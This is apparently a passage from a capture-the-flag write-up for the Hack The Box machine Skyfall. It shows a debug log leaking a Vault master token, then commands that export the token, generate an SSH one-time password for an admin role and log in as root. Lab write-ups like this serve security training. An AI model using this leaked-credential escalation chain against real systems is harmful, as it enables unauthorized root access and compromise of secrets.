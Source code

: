 ```markdown
-rw-r----- 1 root  askyy   33 Feb  5 09:01 user.txt

> cat debug.log
2024/02/05 11:02:44 Initializing logger...
2024/02/05 11:02:44 Reading: /etc/vault-unseal.yaml
2024/02/05 11:02:44 Security Risk!
2024/02/05 11:02:44 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/02/05 11:02:44 Found Vault node: http://prd23-vault-internal.skyfall.htb
2024/02/05 11:02:44 Check interval: 5s
2024/02/05 11:02:44 Max checks: 5
2024/02/05 11:02:44 Establishing connection to Vault...
2024/02/05 11:02:44 Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
2024/02/05 11:02:44 Checking seal status
2024/02/05 11:02:44 Vault sealed: false
```
Application dumps the vault master key, which we can use to generate an OTP and SSH in the same way as before. Just remember to update the role to `admin_otp_key_role`, and SSH as `root`
```markdown
> export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"

> export VAULT_TOKEN="hvs.I0ewVsmaKU1SwVZAKR3T0mmG"

> ./vault ssh -role admin_otp_key_role -mode otp -strict-host-key-checking=no root@10.10.11.254
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Feb  5 10:54:14 2024 from 10.10.14.145
root@skyfall:~# id
uid=0(root) gid=0(root) groups=0(root)
```
You are root.
